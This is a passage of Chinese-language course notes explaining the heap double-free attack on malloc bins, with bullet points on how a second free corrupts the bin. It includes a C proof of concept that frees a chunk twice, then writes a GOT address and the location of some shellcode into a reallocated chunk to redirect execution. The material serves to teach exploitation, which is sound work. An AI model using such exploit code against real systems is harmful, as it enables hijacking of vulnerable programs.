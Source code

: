 	* 一个空的筐和一个已分配的内存块
		- 空的筐仅仅包含头
		- 筐和内存块之间没有任何联系
	* 块被释放后，它被放入筐中
		- 在调用frontlink后，筐的前向和后向指针指向已释放的块
	* 对内存块的第二次释放毁坏了筐结构
		- 利用困难：已释放的内存没有立即放入筐中，而是被缓存；双重释放块可能和其他块合并

            <figure markdown>
			![corrupted bin](md-img/20191021_07.png){ width="300" loading="lazy" }
            <figcaption>损坏的筐结构</figcaption>
            </figure>

			```c linenums="1" hl_lines="13-16 19 21 24"
			static char *GOT_LOCATION = (char *)0x0804c98c;
			static char shellcode[] =
			"\xeb\x0cjump12chars_" /* jump */
			"\x90\x90\x90\x90\x90\x90\x90\x90"

			int main(void){
				int size = sizeof(shellcode);
				void *shellcode_location;
				void *first, *second, *third, *fourth;
				void *fifth, *sixth, *seventh;
				shellcode_location = (void *)malloc(size);
				strcpy(shellcode_location, shellcode);
				first = (void *)malloc(256);                //(1)
				second = (void *)malloc(256);
				third = (void *)malloc(256);
				fourth = (void *)malloc(256);               //(2)
				free(first);                                //(3)
				free(third);                                //(4)
				fifth = (void *)malloc(128);                //(5)
				free(first);                                //(6)
				sixth = (void *)malloc(256);                //(7)
				*((void **)(sixth+0))=(void *)(GOT_LOCATION-12);  //(8)
				*((void **)(sixth+4))=(void *)shellcode_location;
				seventh = (void *)malloc(256);              //(9)
				strcpy(fifth, "something");                 //(10)
															//(11)
				return 0;
			}
			```
